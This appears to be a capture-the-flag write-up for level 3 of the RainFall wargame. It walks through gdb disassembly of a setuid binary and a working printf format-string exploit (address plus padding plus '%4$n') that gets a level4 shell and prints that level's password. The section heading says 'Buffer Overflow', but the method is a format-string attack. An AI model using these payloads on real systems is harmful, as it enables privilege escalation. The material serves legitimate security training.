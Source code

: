 # Level 3

## Vulnerability

Buffer Overflow Exploit

## Context
```
level3@RainFall:~$ ls -l
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
hello
hello
```
We have a binary that prints input from the stdin. 

## Solution
Let's take a look at the binary in gdb. <br/>
We can see here that ```level3``` makes a call to ```main()```, which makes a call to a function ```v()```. <br/>
```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
Let's take a deeper look a ```v()```.<br/>
We can see two function calls in ```v()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. 
```
(gdb) disas v
[...]
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```
We also find a global variable ```m``` at address 0x804988c.
```
(gdb) break v
(gdb) run
(gdb) info variables
0x0804988c  m
```
Back in ```v()```, we see a comparison of variable ```m``` to the value 64 (or $0x40 in hexadecimal).<br/>
If the comparison is not equal (```jne```), then the program quits.<br/>
If the comparison is true, the program makes a call to ```system()``` and launches a new shell. 
```
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   [...]
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
```
We know that a ```printf()``` string with spurious % specifiers can be used to read whatever is on the stack. <br/>
Let's try it out. We'll use the modifier ```%x```, which will print out addresses on the stack in hexadecimal.
```
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
Interesting... We can see our buffer "AAAA" in the 4th position on the stack as ```41414141```.<br/>
This means that we can leverage ```printf``` to write our variable ```m```'s address directly in the stack!<br/>
So let's replace our buffer "AAAA" with the address of the variable ```m``` (in little endian).
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```
Great. Now how do we get our new ```m``` to have the value 64?<br/>
Well, we also know that with ```printf```'s ```%n``` modifier, some values can be written to memory. <br/>
```%n``` means: "the next argument is an ```int *``` – go there and write the number characters written so far".<br/>
Let's break down what this exploit format string will look like. <br/>

- address of ```m``` [4 bytes]
- pad of arbitrary data [60 bytes]
- 4$ ($ is a shortcut to specifying the argument number. In this case, the 4th argument on the stack)
- %n (writes 64 to memory at the address of ```m```)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"A"*60+"%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Recreate Exploited Binary

As user level4, in /tmp, create and compile level3_source.c.
```
level4@RainFall:~$ cd /tmp
level4@RainFall:/tmp$ gcc level3_source.c -fno-stack-protector -o level3_source
```
Edit permissions including suid, then move the binary to home directory.
```
level4@RainFall:/tmp$ chmod u+s level3_source
level4@RainFall:/tmp$ chmod +wx ~; mv level3_source ~
```
Exit back to user level3, then run the binary.
```
level4@RainFall:/tmp$ exit
exit
level3@RainFall:~$ (python -c 'print "\x4c\xa0\x04\x08"+"A"*60+"%4$n"' ; cat -) | /home/user/level4/level3_source
```

